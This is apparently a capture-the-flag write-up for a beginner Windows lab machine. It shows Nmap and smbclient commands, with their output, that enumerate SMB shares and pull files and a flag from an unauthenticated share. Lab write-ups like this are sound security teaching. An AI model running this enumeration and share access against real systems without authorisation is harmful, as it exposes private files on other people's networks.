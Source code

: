 ```yaml
---
Name: Dancing
OS: Windows
Difficulty: very easy
Date: May 1st 2023
Tags: SMB
---
```


## Description
The third machine of the Starting Point Tier 0. This time a Windows system hosting an SMB share.

## Enumeration
Let's start with a simple Nmap scan to determine what ports are open on the target machine.
```
$ nmap -F --reason -sV $ip

PORT    STATE SERVICE       REASON  VERSION
135/tcp open  msrpc         syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
In this case multiple ports are open, by looking at them one can determine that the target machine runs on Windows. Clearly, the most interesting service open on the target system is the SMB port of `445`. An SMB client can be used to list SMB shares on the remote system.
```
$ smbclient -L $ip

Enter WORKGROUP\b4rt00's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
SMB1 disabled -- no workgroup available
```
Besides standard shares ther is also one called `WorkShares` which looks interesting. Let's use `smbclient` to connect to it and view its contents.
```
$ smbclient \\\\$ip\\WorkShares
Enter WORKGROUP\b4rt00's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

		5114111 blocks of size 4096. 1749019 blocks available
```
There are two available directories which look like personal employee shares.
```
smb: \> cd Amy.J\
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

		5114111 blocks of size 4096. 1749019 blocks available
smb: \Amy.J\> get worknotes.txt 
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0,3 KiloBytes/sec) (average 0,3 KiloBytes/sec)
smb: \Amy.J\> cd ..\James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

		5114111 blocks of size 4096. 1749024 blocks available
smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0,1 KiloBytes/sec) (average 0,2 KiloBytes/sec)
smb: \James.P\>
```
One of them contains a file called `worknotes.txt` which is just a note left there by Amy.
The other one is the flag.
```
$ cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing

$ cat flag.txt
[REDACTED]
```

## Summary
This machine demonstrates how a single open SMB share can leak sensitive information to anyone interested enough to look. This is very common in Windows enviroments where SMB is easy to enable and forget, possibly exposing sensitive information.

## Resources
[SMB wikipedia article](https://en.wikipedia.org/wiki/Server_Message_Block)